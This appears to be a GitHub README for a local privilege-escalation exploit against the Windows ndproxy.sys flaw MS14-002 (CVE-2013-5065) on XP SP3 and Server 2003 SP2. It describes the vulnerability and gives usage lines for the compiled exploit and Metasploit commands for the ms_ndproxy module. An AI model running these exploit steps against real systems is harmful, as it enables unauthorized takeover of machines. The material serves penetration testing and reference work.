

# MS14-002 

```
This module exploits a flaw in the ndproxy.
sys driver on Windows XP SP3 and Windows 2003 SP2 systems, exploited in the wild in November, 2013. 
The vulnerability exists while processing an IO Control Code 0x8fff23c8 or 0x8fff23cc, 
where user provided input is used to access an array unsafely, and the value is used to perform a call, 
leading to a NULL pointer dereference which is exploitable on both Windows XP and Windows 2003 systems. 
This module has been tested successfully on Windows XP SP3 and Windows 2003 SP2.
In order to work the service "Routing and Remote Access" must be running on the target system.
```
- The exp was from [@ev-zzo](https://github.com/dev-zzo/exploits-nt-privesc/blob/master/MS14-002/MS14-002.c)  [@Tomislav Paskalev](https://www.exploit-db.com/exploits/37732/)  [@ryujin](https://www.exploit-db.com/exploits/30014/)

Vulnerability reference:
 * [MS14-002](https://technet.microsoft.com/library/security/ms14-002)
 * [CVE-2013-5065](https://www.exploit-db.com/exploits/39446/)


## Usage
- c:\> MS14-002.exe XP
- c:\> MS14-002.exe 2k3



## load the module within the msf
- [msf](https://www.rapid7.com/db/modules/exploit/windows/local/ms_ndproxy)

```
  msf > use exploit/windows/local/ms_ndproxy
  msf exploit(ms_ndproxy) > show targets
        ...targets...
  msf exploit(ms_ndproxy) > set TARGET <target-id>
  msf exploit(ms_ndproxy) > show options
        ...show and set options...
  msf exploit(ms_ndproxy) > exploit

```
## Links

- [The Kernel is calling a zero(day) pointer – CVE-2013-5065 – Ring Ring](https://www.trustwave.com/Resources/SpiderLabs-Blog/The-Kernel-is-calling-a-zero(day)-pointer-–-CVE-2013-5065-–-Ring-Ring/)
- [CVE-2013-5065: NDProxy array indexing error unpatched vulnerability](https://labs.portcullis.co.uk/blog/cve-2013-5065-ndproxy-array-indexing-error-unpatched-vulnerability/)

